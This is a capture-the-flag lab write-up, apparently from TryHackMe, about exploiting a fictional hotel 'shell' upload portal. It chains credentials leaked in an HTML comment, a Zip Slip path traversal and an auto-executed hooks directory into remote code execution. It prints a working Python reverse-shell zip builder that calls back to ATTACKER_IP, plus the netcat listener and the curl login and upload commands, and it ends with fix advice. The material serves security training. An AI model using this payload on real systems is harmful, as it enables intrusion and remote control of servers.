Summary
The Byte Lotus "Shoreline Display" portal lets staff upload a .zip "shell" — a themed asset pack for in-room tablets. Hardcoded credentials leaked in an HTML comment gave initial access to the portal.
The upload feature extracted archive contents without sanitizing internal file paths (a Zip Slip vulnerability), and a hooks field in the manifest was auto-loaded and executed by a background "theme worker." Combining the two let us drop a malicious Python file directly into the application's hooks/ directory, achieving remote code execution as the roomservice user.
Recon
Nmap scan of the target showed two open ports:

22/tcp open ssh
5000/tcp open http
Port 5000 hosted the "Byte Lotus — Room Service" portal, redirecting unauthenticated requests to /login.

Credential Leak
Viewing the page source of /login revealed a developer comment left in the HTML:

Exploring the Upload Feature
The dashboard exposed a "Bring a shell ashore" upload form:

- Accepts a .zip file
- Each archive must contain a shell.json manifest describing assets
- Allowed asset types: png jpg gif svg css json
- Notably: shells "may include optional automation hooks — the theme worker applies these for you shortly after the shell comes ashore"


A minimal test upload confirmed the app extracts the zip to a predictable path and serves files back statically:

The manifest was echoed back verbatim, confirming the server parses and stores whatever JSON keys are supplied — including keys not documented in the UI, such as hooks.
Finding the Vulnerability: Zip Slip + Hook Auto-Load
Two things stood out:
- No path sanitization on extraction. The server trusted the internal filenames of the uploaded zip rather than stripping directory traversal sequences. A crafted entry such as ../../hooks/callback.py would be extracted outside the intended shells/<id>/ sandbox.
- A hooks/ directory next to the Flask app (/var/www/conch/hooks) is auto-loaded by a theme_worker.py process — any Python file placed there gets executed shortly after being written.
Chaining these together: instead of just writing a harmless file outside the sandbox, we could plant a malicious hook directly where the worker would pick it up and run it — turning an arbitrary file write into remote code execution.
Building the Exploit
import zipfile, json
manifest = {"name": "reverse", "assets": []}callback = '''
import socket, os, pty
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("ATTACKER_IP", 4444))
for fd in (0, 1, 2):
os.dup2(sock.fileno(), fd)
pty.spawn("/bin/bash")
'''with zipfile.ZipFile("reverse-shell.zip", "w") as z:
z.writestr("shell.json", json.dumps(manifest))
z.writestr("../../hooks/callback.py", callback)
The shell.json entry keeps the archive looking legitimate to the upload handler, while the second entry's path traversal (../../hooks/callback.py) escapes the per-upload sandbox and lands in the app's real hooks/ directory.

Getting the Shell
Start a listener:
nc -lvnp 4444

Authenticate and upload the payload:
curl -s -c cookies.txt -X POST http://TARGET:5000/login \
-d 'username=concierge' -d 'password=StayNoticed2024!' -o /dev/null
curl -s -b cookies.txt -F 'shell=@reverse-shell.zip' http://TARGET:5000/upload

Within seconds, the theme worker picked up and executed callback.py, and a shell landed as roomservice in /var/www/conch:

Upgraded to a full TTY:
python3 -c 'import pty; pty.spawn("/bin/bash")'
Finding the Flag
find / -iname "*flag*" 2>/dev/null
Turned up:


Root Cause & Fix
- Zip Slip: always sanitize archive member names before extraction — reject or strip any entry containing .. or resolving outside the intended extraction directory (e.g., validate with os.path.realpath + a prefix check before writing).
- Auto-loaded hooks: never exec/import arbitrary files dropped into an application directory. If a plugin/hook system is required, use a signed or allow-listed manifest, run hooks in a sandboxed subprocess with least privilege, and keep the hook directory outside any path reachable by user-controlled extraction.
- Hardcoded credentials in comments: don't ship default credentials in source, even for "internal" staff portals — enforce password rotation before first use, not just recommend it.
Flag
THM{z1p_sl1pp3d_1nt0_a_sh3ll}